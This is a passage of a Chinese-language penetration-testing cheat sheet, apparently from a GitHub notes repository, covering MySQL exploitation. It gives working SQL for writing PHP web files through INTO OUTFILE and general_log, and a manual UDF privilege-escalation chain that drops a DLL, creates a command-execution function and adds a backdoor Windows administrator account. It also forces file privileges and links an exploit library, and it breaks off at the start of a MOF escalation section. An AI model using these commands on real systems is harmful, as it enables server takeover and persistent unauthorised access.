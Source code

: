         直接 SQL 写文件
        `select '<?php phpinfo(); ?>' INTO OUTFILE 'C:/phpStudy/PHPTutorial/WWW/a.php';`
        如果 file_priv 为 null，那么是写不了的，可以尝试使用日志写马
        ```sql
        set global general_log='on';
        set global general_log_file='C:/phpStudy/PHPTutorial/WWW/a.php';
        select '<?php phpinfo(); ?>';
        set global general_log=off;
        ```

- **UDF 提权**
    - 文章
        - [Command execution with a MySQL UDF](http://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)

    - POC | Payload | exp
        - [mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)

    - 手工
        ```sql
        select @@basedir;  # 查看 mysql 安装目录
        select 'It is dll' into dumpfile 'C:\。。lib::';  # 利用 NTFS ADS 创建 lib 目录
        select 'It is dll' into dumpfile 'C:\。。lib\plugin::';  # 利用NTFS ADS 创建 plugin 目录
        select 0xUDFcode into dumpfile 'C:\phpstudy\MySQL\lib\plugin\mstlab.dll';  # 导出 udfcode，注意修改 udfcode
        create function cmdshell returns string soname 'mstlab.dll';   #用 udf 创建 cmd 函数，shell,sys_exec,sys_eval
        select shell('cmd','net user');     # 执行 cmd 命令
        show variables like '%plugin%';     # 查看 plugin 路径
        ```

        小技巧：

        1. HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MySQL 注册表中 ImagePath 的值为 mysql 安装目录
        2. my.ini 中 datadir 的值是数据存放目录
        3. UPDATE user set File_priv ='Y';  flush privileges; 强制加 file权限

        ```sql
        USE mysql;
        CREATE TABLE npn(line blob);
        INSERT INTO npn values(load_file('C://xampplite//htdocs//mail//lib_mysqludf_sys.dll'));
        SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
        CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
        SELECT sys_exec("net user npn npn12345678 /add");
        SELECT sys_exec("net localgroup Administrators npn /add");
        ```

- **MOF 提权**

    MOF提权的条件要求十分严苛：
    1. windows 03 及以下版本
    2. mysql 启动身份具有权限去读写 c:/windows/system32/wbem/mof 目录
    3. secure-file-priv 参数不为 null

    ```ini
    #pragma namespace("\\.\root\subscription")

